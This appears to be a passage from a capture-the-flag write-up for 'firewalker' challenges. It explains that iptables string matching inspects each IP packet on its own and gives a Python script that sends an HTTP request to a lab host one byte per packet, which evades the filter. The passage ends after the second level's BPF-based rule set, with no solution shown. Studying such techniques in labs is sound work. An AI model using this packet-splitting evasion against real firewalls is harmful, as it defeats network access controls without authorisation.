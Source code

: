 This challenge cleverly teaches a "leason" on the different abstractions of the IP and TCP layers, respectively, in the networking stack. TCP exposes a _stream_ of bytes transmitted in any number of (arbitrarily sized) chunks to be later re-assembled (usually by "buffering") by the receiver. On the other hand, the IP layer models a sequence of clearly distinct packets between a sender and a receiver purpusefully designed to be (theoretically) ignorant about the nature of the payload, including the fact that they may convey (parts of) a TCP stream. Crucially for this challenge, iptables rules apply to each _IP packet individually_ in the sequence of packets used to transfer the _TCP stream_ from the client to the server. 

In this case, it means that the rules apply the string matching rules (an iptables extension module) to each IP packet in isolation. On the other hand, the _HTTP_ server just needs a stream of bytes that eventually spell out a valid HTTP request, buffering whatever it partially receives until it has all it needs (or is able to determine that it is an invalid request).

Thus to solve this challenge we merely need to split up our full TCP-based HTTP request into enough distinct IP packets to avoid the strings matching any _one_ packet:

```py
#!/usr/bin/env python2
import socket
import time

sock = socket.socket()
sock.setsockopt(socket.SOL_TCP, socket.TCP_NODELAY, 1)
sock.connect(('172.31.2.97', 30485))

for c in 'GET /flag-4ae60838.txt HTTP/1.1\r\nHost: 172.31.2.97:30485\r\n\r\n':
    sock.send(c)
    print 'sent {}'.format(c),
    time.sleep(1)

while True:
    print sock.recv(1024),
```

This snippet manually chunks the TCP stream into IP packets each containing 1 byte of the full request with a little code to force the TCP stack to transmit the chunks individually. A little bit overkill to split everything into single bytes to bypass these particular filters, but it was quick to implement.

# firewalker_2

This next level upped the ante quite a bit. The rules guarding `http://172.31.2.97:15646/flag-742c78b2.txt` were:

```
Chain PORT_15646 (1 references)
target     prot opt source               destination         
RETURN     all  --  anywhere             anywhere            match bpf 48 0 0 32,84 0 0 240,116 0 0 2,4 0 0 20,2 0 0 0,1 0 0 40,96 0 0 0,28 0 0 0,21 51 0 0,80 0 0 0,21 20 0 2,37 3 0 1,135 0 0 0,4 0 0 1,5 0 0 2,80 0 0 1,12 0 0 0,7 0 0 0,96 0 0 0,28 0 0 0,21 39 0 0,80 0 0 0,21 8 0 2,37 3 0 1,135 0 0 0,4 0 0 1,5 0 0 2,80 0 0 1,12 0 0 0,7 0 0 0,5 0 0 29,72 0 0 2,2 0 0 1,20 0 0 1461,53 0 25 12648430,96 0 0 1,148 0 0 2,21 0 22 1,96 0 0 1,148 0 0 3,21 0 19 2,96 0 0 1,148 0 0 5,53 16 0 4,96 0 0 1,148 0 0 11,37 0 13 2,96 0 0 1,148 0 0 17,37 0 10 9,96 0 0 1,148 0 0 23,53 7 0 5,96 0 0 1,148 0 0 42,37 0 4 30,96 0 0 1,148 0 0 61,37 0 1 50,6 0 0 262144,6 0 0 0
REJECT     all  --  anywhere             anywhere             reject-with icmp-admin-prohibited
```
